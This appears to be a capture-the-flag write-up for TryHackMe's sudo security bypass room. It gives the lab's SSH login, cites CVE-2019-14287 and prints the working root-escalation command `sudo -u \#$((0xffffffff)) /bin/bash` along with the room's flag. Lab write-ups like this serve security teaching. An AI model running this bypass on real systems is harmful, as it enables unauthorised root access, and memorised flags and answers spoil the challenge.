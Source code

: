 # Sudo Security Bypass | https://tryhackme.com/room/sudovulnsbypass

### [Task 2] Security Bypass

ssh -p 2222 tryhackme@10.10.170.166 
Password : tryhackme 

What can we run with sudo? : `sudo -l`

#1	What command are you allowed to run with sudo? : `/bin/bash`

CVE-2019-14287 : https://nvd.nist.gov/vuln/detail/CVE-2019-14287

In Sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u \#$((0xffffffff))" command.

so, for root access : `sudo -u \#$((0xffffffff)) /bin/bash`

#2	What is the flag in /root/root.txt? : `THM{l33t_s3cur1ty_bypass}`